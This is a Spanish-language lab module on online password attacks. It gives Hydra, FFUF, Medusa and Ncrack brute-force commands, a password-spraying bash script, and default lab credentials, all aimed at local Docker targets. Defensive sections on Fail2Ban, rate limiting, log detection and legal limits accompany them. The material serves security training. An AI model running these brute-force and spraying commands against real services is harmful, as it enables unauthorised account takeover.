

# Módulo 5: Ataques Online

> ⏱️ **Tiempo estimado**: 60 minutos

## 🎯 Objetivos de Aprendizaje

- Diferenciar ataques offline vs online
- Utilizar Hydra para brute-forcing de servicios
- Comprender limitaciones y mitigaciones
- Aplicar rate limiting y detección de intrusiones

## 📖 Teoría

### Arquitectura de Ataque Online


```mermaid
flowchart TD
    A["🦹 Attacker (Hydra)"] -->|"SSH (port 22)"| B["🖥️ SSH Target"]
    A -->|"HTTP POST"| C["🌐 DVWA Web"]
    
    subgraph "Intrusion Detection"
        B -->|Logs| D["📄 auth.log"]
        C -->|Logs| E["📄 access.log"]
        D -.-> F["👮 Fail2Ban"]
        F -->|Block IP| A
    end
```

### Offline vs Online

| Aspecto | Offline | Online |
|---------|---------|--------|
| **Velocidad** | Millones H/s | Cientos/segundo |
| **Detección** | Imposible | Alta probabilidad |
| **Requisitos** | Hash obtenido previamente | Acceso al servicio |
| **Mitigaciones** | Hashing fuerte | Rate limiting, lockout |

### ¿Por qué Online es más lento?

1. **Latencia de red**: Cada intento requiere una petición/respuesta
2. **Rate limiting**: Servicios limitan intentos por IP
3. **Account lockout**: Bloqueo tras N intentos fallidos
4. **CAPTCHA**: Validación humana

### Servicios comunes atacables

- **SSH** (puerto 22): Acceso remoto a servidores
- **FTP** (puerto 21): Transferencia de archivos
- **HTTP/HTTPS**: Formularios de login
- **RDP** (puerto 3389): Escritorio remoto Windows
- **SMB** (puerto 445): Compartición de archivos Windows

---

## 🛠️ Herramientas

### Hydra

```bash
# Sintaxis general
hydra -l [usuario] -P [wordlist] [protocolo://]host[:puerto] [opciones]

# Opciones útiles
-l usuario          # Login específico
-L users.txt        # Lista de usuarios
-p password         # Password específico
-P passwords.txt    # Lista de passwords
-t N                # Parallel tasks (threads)
-vV                 # Verbose
-f                  # Stop when found
```

### Protocolos soportados

```bash
hydra -h | grep "Supported services"
```

Incluye: ssh, ftp, http-get, http-post-form, smb, rdp, mysql, postgres, etc.

---

## 💻 Ejercicios Prácticos

### Entorno del Laboratorio

Servicios vulnerables corriendo en Docker:

```
ssh-target:2222    → Usuario: testuser, Password: password123
dvwa:80            → Múltiples usuarios con passwords débiles
```

> [!IMPORTANT]
> ### 🛡️ ¿Qué defensas están implementadas en NUESTRO laboratorio?
> 
> | Servicio | Rate Limiting | Account Lockout | Fail2Ban | CAPTCHA |
> |:---------|:-------------:|:---------------:|:--------:|:-------:|
> | **ssh-target** | ❌ No | ❌ No | ❌ No | N/A |
> | **dvwa** | ❌ No | ❌ No | ❌ No | ❌ No |
> | **vulnerable-api** | ✅ **Sí** (5 intentos) | ❌ No | N/A | ❌ No |
>
> **Explicación**:
> - `ssh-target` y `dvwa` son **intencionalmente vulnerables** para que puedas practicar ataques sin restricciones.
> - `vulnerable-api` (Módulos 6 y 9) **sí tiene Rate Limiting**: tras 5 intentos fallidos desde la misma IP, te bloqueará 60 segundos. Esto es para que practiques **evasión con rotación de IPs** en el Módulo 9.
> - Las secciones de "Mitigaciones" más abajo son **teóricas/educativas**, no están activas en estos contenedores.

### Ejercicio 1: SSH Brute Force 🟢

```bash
# Verificar conectividad
nc -zv ssh-target 2222

# Ataque básico con usuario conocido (1 thread para evitar errores de conexión)
hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1 -f

# Más verboso
hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1 -vV -f
```

> [!TIP]
> **¿Errores de conexión?** El servidor SSH de Docker limita conexiones concurrentes.
> - Usa `-t 1` (un solo thread) en lugar de `-t 4`
> - Si persisten errores, añade `-W 1` para esperar 1 segundo entre intentos

**Pregunta**: ¿Cuánto tardó en encontrar la contraseña?

---

### Ejercicio 2: HTTP POST Form (DVWA) 🟡

DVWA tiene un formulario de login en `/login.php`.

> [!WARNING]
> **Limitación técnica**: DVWA usa **CSRF tokens** en su formulario de login, lo que hace que Hydra no funcione correctamente (reporta falsos positivos). 
> 
> En este ejercicio aprenderás por qué ocurre esto y usaremos **FFUF** como alternativa.

#### Paso 1: Analizar el formulario

```bash
# Inspeccionar con curl
curl -s http://dvwa/login.php | grep -E "(name=|token)"

# Verás algo como:
# <input type="hidden" name="user_token" value="abc123..." />
# Este token cambia en cada petición, lo que rompe ataques simples de Hydra
```

#### Paso 2: Entender por qué Hydra falla

```bash
# Este comando NO funcionará correctamente:
hydra -l admin -P /wordlists/rockyou-subset.txt dvwa http-post-form \
  "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -t 1

# Hydra reportará "éxitos" falsos porque sin el token CSRF,
# DVWA no muestra "Login failed" sino otro mensaje de error
```

**Lección**: Los formularios web modernos con CSRF protection requieren herramientas más sofisticadas o scripts personalizados.

**Credenciales por defecto en DVWA** (para testing manual):
- admin/password
- gordonb/abc123
- 1337/charley
- pablo/letmein
- smithy/password

---

### Ejercicio 2b: Ataque Web con FFUF (API Vulnerable) 🚀

Como DVWA tiene CSRF, usaremos la **vulnerable-api** que es una API REST sin protección CSRF.

**Ventajas de FFUF**:
- Escrito en Go (muy rápido)
- Fácil filtrado por tamaño, código HTTP, o regex
- Ideal para APIs REST

#### Paso 1: Verificar la API

```bash
# Ver endpoints disponibles
curl http://vulnerable-api:5000/

# Probar login manualmente
curl -X POST http://vulnerable-api:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"jdoe","password":"wrongpassword"}'

# Respuesta de fallo (401): {"success":false,"error":"Invalid username or password"...}
```

#### Paso 2: Ataque con FFUF

```bash
# Bruteforce de password para usuario "jdoe"
ffuf -w /wordlists/rockyou-subset.txt \
     -u http://vulnerable-api:5000/api/login \
     -X POST \
     -H "Content-Type: application/json" \
     -d '{"username":"jdoe","password":"FUZZ"}' \
     -mc 200 \
     -v

# Explicación:
# -mc 200: Solo mostrar respuestas con código 200 (éxito)
# Los fallos devuelven 401, así que se filtran automáticamente
```

#### ¿Cómo saber si funcionó?

FFUF mostrará una línea con la contraseña encontrada:

```
[Status: 200, Size: 150, Words: 12, Lines: 1]
    * FUZZ: password
```

Si no aparece nada después de probar todas las palabras:
- El usuario puede no existir en la base de datos
- La contraseña no está en el wordlist

#### Paso 3: Verificar credenciales encontradas

```bash
# Probar la contraseña encontrada
curl -X POST http://vulnerable-api:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"jdoe","password":"password"}'

# Respuesta exitosa: {"success":true,"token":"TOKEN_..."}
```

> [!TIP]
> **Usuarios válidos en vulnerable-api**: Consulta el archivo `vulnerable-api/users_db.json` para ver qué usuarios existen y sus contraseñas (para verificar tus resultados).

---

### Ejercicio 3: Múltiples usuarios SSH 🔴

```bash
# Crear lista de usuarios
cat > /tmp/users.txt << EOF
root
admin
testuser
user
demo
EOF

# Ataque con múltiples usuarios
hydra -L /tmp/users.txt -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1 -f
```


---

## 🚿 Password Spraying

### ¿Qué es Password Spraying?

**Definición**: Intentar **una contraseña común** contra **muchos usuarios** para evitar bloqueos de cuenta.

**Ejemplo**:
```
Usuarios: admin, user1, user2, ..., user1000
Password: Winter2024!
Intentos: 1 intento por usuario = 1000 intentos totales
```

Vs tradicional brute force:
```
Usuario: admin
Passwords: password, password1, password123, ...
Intentos: 1000 intentos en 1 cuenta → BLOQUEADA
```

### Ejercicio 4: Password Spraying con Hydra 🌟

#### Escenario

Tienes una lista de usuarios del sistema SSH y quieres probar contraseñas comunes.

#### Paso 1: Crear lista de usuarios

```bash
cat > /tmp/ssh_users.txt << EOF
root
admin
testuser
user
demo
guest
support
service
backup
monitor
EOF
```

#### Paso 2: Lista de contraseñas comunes

```bash
cat > /tmp/common_passwords.txt << EOF
password
Password1!
Winter2024!
Company123!
admin
letmein
welcome
123456
changeme
default
EOF
```

#### Paso 3: Password Spraying

**Opción A: Una password a la vez** (recomendado para evitar lockout)

```bash
# Probar "password" contra todos los usuarios
hydra -L /tmp/ssh_users.txt -p "password" ssh://ssh-target:2222 -t 1

# Esperar 5 minutos (simular delay real)
sleep 300

# Probar "Password1!" contra todos
hydra -L /tmp/ssh_users.txt -p "Password1!" ssh://ssh-target:2222 -t 1
```

**Opción B: Automatizado con script**

```bash
#!/bin/bash
# password_spray.sh

USERS="/tmp/ssh_users.txt"
PASSWORDS="/tmp/common_passwords.txt"
TARGET="ssh://ssh-target:2222"
DELAY=60  # Segundos entre intentos

echo "[*] Iniciando password spraying..."
echo "[*] Usuarios: $(wc -l < $USERS)"
echo "[*] Passwords a probar: $(wc -l < $PASSWORDS)"

while read password; do
    echo ""
    echo "[+] Probando password: $password"
    hydra -L "$USERS" -p "$password" "$TARGET" -t 1 -f
    
    if [ $? -eq 0 ]; then
        echo "[!] ENCONTRADA: $password"
    fi
    
    echo "[*] Esperando ${DELAY}s antes del siguiente intento..."
    sleep $DELAY
done < "$PASSWORDS"

echo ""
echo "[*] Password spraying completado"
```

Ejecutar:
```bash
chmod +x password_spray.sh
./password_spray.sh
```

---

### Mitigaciones contra Password Spraying

1. **Account Lockout Policies** (pero con threshold alto)
   - Ej: 10 intentos en 1 hora (no 3 en 5 minutos)

2. **Detección de patrones**
   - Alertar si muchos usuarios fallan con la misma password

3. **Multi-Factor Authentication (MFA)**
   - Hace el ataque inútil

4. **Password Policies**
   - Prohibir contraseñas comunes (usar SecLists para validación)

5. **Monitoring de logs**
   ```bash
   # Detectar password spraying en logs
   grep "Failed password" /var/log/auth.log | \
     awk '{print $11}' | sort | uniq -c | sort -rn
   ```

## 🛡️ Mitigaciones y Defensas

> [!NOTE]
> **Sección Educativa**: Las siguientes mitigaciones se explican a nivel teórico. **No están activas** en los contenedores `ssh-target` ni `dvwa` de este laboratorio. Sirven para que entiendas cómo proteger sistemas reales.

### Fail2Ban

Herramienta que bloquea IPs tras N intentos fallidos.

**Configuración ejemplo** (no ejecutar en el lab):

```ini
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600
```

### Rate Limiting en aplicaciones web

```python
# Ejemplo Flask con rate limiting
from flask_limiter import Limiter

limiter = Limiter(app, key_func=get_remote_address)

@app.route("/login", methods=["POST"])
@limiter.limit("5 per minute")
def login():
    # Login logic
    pass
```

### CAPTCHA

Google reCAPTCHA previene ataques automáticos:

```html
<form action="/login" method="POST">
  <input name="username" type="text">
  <input name="password" type="password">
  <div class="g-recaptcha" data-sitekey="YOUR_SITE_KEY"></div>
  <button type="submit">Login</button>
</form>
```

---

## 🔬 Experimentos Adicionales

### Comparar tiempos con diferentes threads

```bash
# 1 thread
time hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1

# 4 threads
time hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 1 -f

# 16 threads (puede ser contraproducente)
time hydra -l testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222 -t 16
```

**Resultado esperado**: 4 threads es ~4x más rápido que 1, pero 16 threads puede causar errores.

---

## 🌍 Caso Real: SSH Botnets

### Mirai Botnet (2016)

- Scaneó Internet en busca de dispositivos IoT
- Probó **61 combinaciones** de usuario/password por defecto:
  - admin/admin
  - root/root
  - admin/password
  - support/support
  
**Resultado**: 600,000 dispositivos comprometidos.

**Lección**: Cambiar credenciales por defecto es crítico.

---

## 📊 Detección de Ataques

### Logs a monitorear

```bash
# SSH failed attempts (Linux)
grep "Failed password" /var/log/auth.log

# Web server (Apache/Nginx)
grep "POST /login" /var/log/nginx/access.log | grep "401\|403"
```

### Patrones de ataque

- **Múltiples intentos fallidos** desde misma IP
- **Patrones secuenciales** (admin, admin1, admin2)
- **User-Agent** de herramientas conocidas (Hydra, Medusa)
- **Velocidad anormal** (100 intentos/minuto)

---

## 🤔 Consideraciones Éticas

> [!WARNING]
> Ataques online contra servicios **SIN AUTORIZACIÓN** son **ilegales** en la mayoría de jurisdicciones.

### Cuándo es legal

- ✅ Pentest con contrato firmado
- ✅ Bug bounty programs autorizados
- ✅ Sistemas propios de prueba (como este laboratorio)

### Consecuencias legales

- España: hasta **3 años de prisión** (Art. 197 Código Penal)
- USA: Computer Fraud and Abuse Act (CFAA) - hasta 10 años
- Muchos países tienen legislación similar

---

## 🧰 Alternativas a Hydra

### Medusa

```bash
# Similar a Hydra pero con diferentes optimizaciones
medusa -h ssh-target -u testuser -P /wordlists/rockyou-subset.txt -M ssh
```

### Ncrack

```bash
# Parte de la suite Nmap
ncrack -u testuser -P /wordlists/rockyou-subset.txt ssh://ssh-target:2222
```

---

## ✅ Criterios de Completitud

Has completado este módulo cuando:

- [ ] Crackeaste exitosamente SSH con Hydra
- [ ] Atacaste el formulario DVWA
- [ ] Comprendiste diferencias offline vs online
- [ ] Identificaste al menos 3 mitigaciones
- [ ] Reflexionaste sobre aspectos éticos y legales

---

🔙 [Anterior: Módulo 4 - Reglas](../module4/README.md) | 🔜 [Siguiente: Módulo 6 - Credential Stuffing](../module6/README.md)
